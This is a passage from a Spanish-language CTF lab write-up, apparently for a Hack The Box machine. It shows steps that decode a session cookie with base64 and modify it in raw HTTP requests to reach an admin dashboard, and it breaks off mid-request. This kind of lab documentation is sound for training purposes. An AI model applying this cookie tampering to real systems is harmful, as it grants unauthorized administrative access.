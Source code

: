 
## Paso 5 - Decodificación de la cookie de sesión

Acción: Decodificación de la cookie de sesión utilizando `base64 -d`.

```Shell
echo -n 'aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=' | base64 -d
```

Resultado:

```Shell
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Explicación: La cookie contiene un valor que, al decodificarse, nos indica que el usuario es **admin**.

---

## Paso 6 - Acceso al panel de administración

Acción: Modificación de la cookie para obtener acceso al panel de administración.

```html
GET /dashboard HTTP/1.1

Host: 10.10.11.8:5000

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```

Modificación de cookie:

```html
GET /dashboard HTTP/1.1

Host: 10.10.11.8:5000

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q

=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1
```